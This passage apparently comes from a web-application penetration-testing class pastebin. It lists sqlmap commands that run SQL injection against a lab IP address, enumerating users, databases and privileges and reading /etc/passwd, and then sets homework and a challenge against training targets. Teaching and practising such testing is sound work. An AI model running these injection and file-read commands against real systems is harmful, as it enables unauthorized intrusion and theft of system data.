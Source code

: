 

cd /home/strategicsec/toolz/sqlmap-dev/

python sqlmap.py -u "http://54.172.112.249/acre2.php?lap=acer" -b -v 3


python sqlmap.py -u "http://54.172.112.249/acre2.php?lap=acer" --current-user -v 3


python sqlmap.py -u "http://54.172.112.249/acre2.php?lap=acer" --current-db -v 3


python sqlmap.py -u "http://54.172.112.249/acre2.php?lap=acer" --privileges -v 3


python sqlmap.py -u "http://54.172.112.249/acre2.php?lap=acer" --dbs -v 3


python sqlmap.py -u "http://54.172.112.249/acre2.php?lap=acer" --tables -v 3


python sqlmap.py -u "http://54.172.112.249/acre2.php?lap=acer" --file-read=/etc/issue -v 3


python sqlmap.py -u "http://54.172.112.249/acre2.php?lap=acer" --file-read=/etc/passwd -v 3




************************ Class Homework ************************

Perform a mock penetration test against http://54.172.112.249 using what you have learned in this pastebin.

You don't need to document it for me, but go through the steps for your own understanding.





************************ Class Challenge ************************

Let's see how you do with someone else's vulnerable website. Your 1st target is: http://zero.webappsecurity.com
 
Here are some sample web app penetration test reports from other companies that you can look at:
https://s3.amazonaws.com/StrategicSec-Files/WebAppSampleReports.zip
 
I want you to perform a penetration test against http://zero.webappsecurity.com and document the engagement as if it were a real project.







###############################################################
# Question 1: What is the process that you use when you test? #
###############################################################

Step 1: Automated Testing

Step 1a: Web Application vulnerability scanners
-----------------------------------------------
- Run two (2) unauthenticated vulnerability scans against the target
- Run two (2) authenticated vulnerability scans against the target with low-level user credentials
- Run two (2) authenticated vulnerability scans against the target with admin privileges
